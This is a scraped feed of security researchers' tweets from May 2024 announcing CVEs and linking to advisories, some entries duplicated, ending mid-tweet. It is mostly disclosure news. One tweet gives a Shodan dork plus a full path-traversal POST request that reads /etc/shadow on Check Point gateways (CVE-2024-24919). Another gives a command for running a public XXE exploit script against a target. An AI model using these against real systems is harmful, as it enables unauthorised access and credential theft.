# thezdi
**https://twitter.com/thezdi/status/1796207012520366552 _at 2024-05-30, 15:48:18_**
<blockquote>
CVE-2024-30043: @chudyPB details this #SharePoint XXE he discovered. He calls it one of the craziest XXEs he has ever seen, both in terms of vuln discovery and the method of triggering. He shows how it can be used for info disclosure &amp; NTLM relaying. https://t.co/BzUDEE5Cy8
</blockquote>

* https://www.zerodayinitiative.com/blog/2024/5/29/cve-2024-30043-abusing-url-parsing-confusion-to-exploit-xxe-on-sharepoint-server-and-cloud

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>258</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1793940320167620744 _at 2024-05-24, 09:41:16_**
<blockquote>
Last week, Microsoft released a patch for CVE-2024-26238, a Windows 10 LPE reported by @yaumn_. You can read the advisory here:
https://t.co/Bn8XytOsth
</blockquote>

* https://www.synacktiv.com/advisories/windows-10-plugscheduler-elevation-of-privilege

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1793517567560335428 _at 2024-05-23, 05:41:24_**
<blockquote>
Nexus Repository Manager 3 Unauthenticated Path Traversal (CVE-2024-4956)
https://t.co/lb5CNJGqmD
This issue is similar to SpringMVC CVE-2018-1271 by @orange_8361 https://t.co/cQn9wAuuSf
</blockquote>

* https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2024-4956

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>241</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1793292950341869665 _at 2024-05-22, 14:48:51_**
<blockquote>
With the help of my friend, 

I successfully reproduced  CVE-2024-4956

unauth file read in Nexus Repository 3 https://t.co/LYjfCZc1It
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>260</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1791457754437112174 _at 2024-05-17, 13:16:26_**
<blockquote>
CVE-2024-20391 - Our ninjas @l4x4 and @k3vinTell discovered that a mouse and a vulnerable Cisco NAM Client is all you need to get SYSTEM privileges from unauthenticated physical access.
https://t.co/L5BXrrF3HQ
</blockquote>

* https://www.synacktiv.com/advisories/code-execution-in-cisco-secure-client-with-nam

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1788751202509021443 _at 2024-05-10, 02:01:34_**
<blockquote>
Analysing a NSO iOS Spyware Sample(#blastpass)
CVE-2023-41064 + CVE-2023-41061 + WebP Vulnerability CVE-2023-4863
https://t.co/BXKmQ2k3yt
REF:
https://t.co/Sh5LijD98h https://t.co/Ec1LbdXFtz
</blockquote>

* https://github.com/blackorbird/APT_REPORT/blob/master/NSOGroup/Asia-24-Frielingsdorf-YouShallNotPassAnalysing.pdf
* https://citizenlab.ca/2023/09/blastpass-nso-group-iphone-zero-click-zero-day-exploit-captured-in-the-wild/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1787806957841100998 _at 2024-05-07, 11:29:29_**
<blockquote>
CVE-2024-4439: Wordpress Core &lt; 6.5.2 Unauthenticated Stored XSS 
https://t.co/RWMRxztIL8

Note: enable "Link to user profile" and "Open in new tab" before reproduce. https://t.co/yd9xP2nJTx
</blockquote>

* https://core.trac.wordpress.org/changeset/57951/branches/6.4/src/wp-includes/blocks/avatar.php

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1786067235267662055 _at 2024-05-02, 16:16:27_**
<blockquote>
In a new guest blog, #Pwn2Own winner @_manfp details CVE-2024-2887 - a bug he used to exploit both #Chrome and #Edge during the contest on his way to winning Master of Pwn. He breaks down the root cause and shows how he exploited it. Read the details at https://t.co/BgMGfczO8U
</blockquote>

* https://www.zerodayinitiative.com/blog/2024/5/2/cve-2024-2887-a-pwn2own-winning-bug-in-google-chrome

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>121</code></td>
<td>Favorites: <code>320</code></td>
</tr></table>

---

# SinSinology
**https://twitter.com/SinSinology/status/1796533246513250718 _at 2024-05-31, 13:24:38_**
<blockquote>
🚨🚨🚨 (CVE-2024-4358) I've exploited a chain of bugs allowing Authentication Bypass 🔥 and eventually Remote Code Execution🩸targeting the famous Telerik Report Server, The PoC and the Writeup are being dropped very soon 🪲
https://t.co/E6VTmMGGmi https://t.co/4QvRfEXs8l
</blockquote>

* https://docs.telerik.com/report-server/knowledge-base/registration-auth-bypass-cve-2024-4358

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>249</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1796207012520366552 _at 2024-05-30, 15:48:18_**
<blockquote>
CVE-2024-30043: @chudyPB details this #SharePoint XXE he discovered. He calls it one of the craziest XXEs he has ever seen, both in terms of vuln discovery and the method of triggering. He shows how it can be used for info disclosure &amp; NTLM relaying. https://t.co/BzUDEE5Cy8
</blockquote>

* https://www.zerodayinitiative.com/blog/2024/5/29/cve-2024-30043-abusing-url-parsing-confusion-to-exploit-xxe-on-sharepoint-server-and-cloud

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>258</code></td>
</tr></table>

---

# ynsmroztas
**https://twitter.com/ynsmroztas/status/1796141710507946169 _at 2024-05-30, 11:28:49_**
<blockquote>
For this vulnerability, just type shodan title:"Check Point" ssl:"target"

CVE-2024-24919

POST /clients/MyCRL HTTP/1.1
host: target
Content-Length: 39

aCSHELL/../../../../../../../etc/shadow

#SSLVPN  #BugBounty https://t.co/VvnMkuC6P1
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>687</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1794008363602174165 _at 2024-05-24, 14:11:39_**
<blockquote>
Google Chrome In-The-Wild Type Confusion in V8 (CVE-2024-5274 [341663589]]) is happening during parsing of JS files (apparently when handling Local/Vars allocation + eval()) and fixed by using FunctionParsingScope for parsing class static blocks:
https://t.co/raK9mooLBc
</blockquote>

* https://chromium-review.googlesource.com/c/v8/v8/+/5553030

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1793962091881120163 _at 2024-05-24, 11:07:47_**
<blockquote>
🚨Google corrige el 8º día cero de Chrome explotado activamente este año y el 4º Zero-Day de Chrome en mayo

Los usuarios de navegadores basados en Chromium como Microsoft Edge, Brave, Opera y Vivaldi deben estar atentos a los parches

CVE-2024-5274
https://t.co/JPDDQspsV1 https://t.co/2XIe3SLc3k
</blockquote>

* https://chromereleases.googleblog.com/2024/05/stable-channel-update-for-desktop_23.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1793940320167620744 _at 2024-05-24, 09:41:16_**
<blockquote>
Last week, Microsoft released a patch for CVE-2024-26238, a Windows 10 LPE reported by @yaumn_. You can read the advisory here:
https://t.co/Bn8XytOsth
</blockquote>

* https://www.synacktiv.com/advisories/windows-10-plugscheduler-elevation-of-privilege

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1793517567560335428 _at 2024-05-23, 05:41:24_**
<blockquote>
Nexus Repository Manager 3 Unauthenticated Path Traversal (CVE-2024-4956)
https://t.co/lb5CNJGqmD
This issue is similar to SpringMVC CVE-2018-1271 by @orange_8361 https://t.co/cQn9wAuuSf
</blockquote>

* https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2024-4956

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>241</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1793292950341869665 _at 2024-05-22, 14:48:51_**
<blockquote>
With the help of my friend, 

I successfully reproduced  CVE-2024-4956

unauth file read in Nexus Repository 3 https://t.co/LYjfCZc1It
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>260</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1792923245248668157 _at 2024-05-21, 14:19:47_**
<blockquote>
Google Chrome In-The-Wild Heap buffer overflow in WebRTC bug entry (CVE-2023-7024 [1513170]) is now open with a PoC:
https://t.co/byJGIeLKg7
</blockquote>

* http://crbug.com/1513170

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# amalmurali47
**https://twitter.com/amalmurali47/status/1791566569501573163 _at 2024-05-17, 20:28:50_**
<blockquote>
Just reversed the recent git RCE: CVE-2024-32002. This was a great find and was very satisying to work on!

The exploit is pretty straightforward: an attacker just needs to get you to clone a repository recursively.

Works on Mac too. Make sure to patch your Git!

#CVE-2024-32002 https://t.co/u7LFIjF13b
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>349</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1791457754437112174 _at 2024-05-17, 13:16:26_**
<blockquote>
CVE-2024-20391 - Our ninjas @l4x4 and @k3vinTell discovered that a mouse and a vulnerable Cisco NAM Client is all you need to get SYSTEM privileges from unauthenticated physical access.
https://t.co/L5BXrrF3HQ
</blockquote>

* https://www.synacktiv.com/advisories/code-execution-in-cisco-secure-client-with-nam

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# wazuh
**https://twitter.com/wazuh/status/1791076890951733262 _at 2024-05-16, 12:03:02_**
<blockquote>
CVE-2024-3094 in XZ Utils allows RCE via SSH. Our latest blog post shows how to use Wazuh to detect exploitation attempts by monitoring SSH processes for suspicious activities.

Read on: https://t.co/C8m0lw9fjE

#InformationSecurity #CyberSecurity #OpenSource
</blockquote>

* https://ow.ly/5JqV50RIamz

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# ynsmroztas
**https://twitter.com/ynsmroztas/status/1790841337224331561 _at 2024-05-15, 20:27:01_**
<blockquote>
If you discover a domain / subdomain using IBM Maximo Asset Management, be sure to check if it is XXE 🥳💰🤗

Use ;

python3 CVE-2020-4463[.]py --url http :// target / -x ( -x for xxe, -d for Data Leak)

https://t.co/DIGucYqJIL

#BugBounty #BugBountyTips https://t.co/MNsCVVrq8M
</blockquote>

* https://github.com/Ibonok/CVE-2020-4463/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>354</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1790379427383120022 _at 2024-05-14, 13:51:33_**
<blockquote>
🔔 Urgent: #Google has released emergency fixes for a new zero-day #vulnerability (CVE-2024-4761) that has been actively exploited in the wild.

Details here: https://t.co/PgW7xbBlQ2

Upgrade to the latest version now.
</blockquote>

* https://thehackernews.com/2024/05/new-chrome-zero-day-vulnerability-cve.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>145</code></td>
<td>Favorites: <code>205</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1790307761596862642 _at 2024-05-14, 09:06:47_**
<blockquote>
About CVE-2024-29895 . How to bypass cli_check. in https://t.co/xR4S7hdyHU

include/cli_check.php:  define('CACTI_CLI_ONLY', true);

